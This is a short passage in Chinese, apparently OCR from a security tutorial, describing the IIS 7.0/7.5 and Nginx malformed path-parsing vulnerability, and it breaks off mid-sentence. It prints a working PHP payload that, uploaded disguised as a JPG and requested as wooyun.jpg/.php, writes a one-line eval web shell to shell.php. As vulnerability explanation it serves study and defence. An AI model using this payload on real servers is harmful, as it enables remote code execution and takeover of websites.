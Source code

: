 二、IIS 7.0/IIS 7.5/ Nginx <8.03畸形解析漏洞

---

Nginx解析漏洞这个伟大的漏洞是我国安全组织80sec发现的…

在默认Fast-CGI开启状况下,黑阔上传一个名字为wooyun.jpg，内容为

<?PHP fputs(fopen('shell.php','w'),'<?php eval($_POST[cmd])?>');?>


的文件，然后访问wooyun.jpg/.php,在这个目录下就会生成一句话木马 shell.php

这个漏洞案例